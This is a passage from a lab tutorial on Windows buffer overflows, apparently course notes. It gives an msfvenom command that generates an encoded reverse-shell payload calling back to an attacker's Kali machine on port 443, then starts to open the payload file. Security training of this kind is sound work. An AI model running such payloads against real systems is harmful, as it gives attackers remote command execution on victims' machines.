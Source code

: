 #### Generating Exploit Code

- On your Kali Linux machine, in a Terminal window, execute the command below.
Replace the IP address with the IP address of your Kali Linux machine.
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST="192.168.50.156" LPORT=443 EXITFUNC=thread -e x86/alpha_mixed -f python > ezm-attack2
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/33.png)
- This command makes an exploit that will connect from the Windows target back to the Kali Linux attacker on port 443 and execute commands from Kali.
- The exploit is output directly into a file named "ezm-attack2" because it's too long to see all at once in a Terminal window.

#### Completing the Attack Code

- On your Kali Linux machine, in a Terminal window, execute the command below.
  ```bash
  nano ezm-attack2
  ```
- The exploit code appears, as shown below.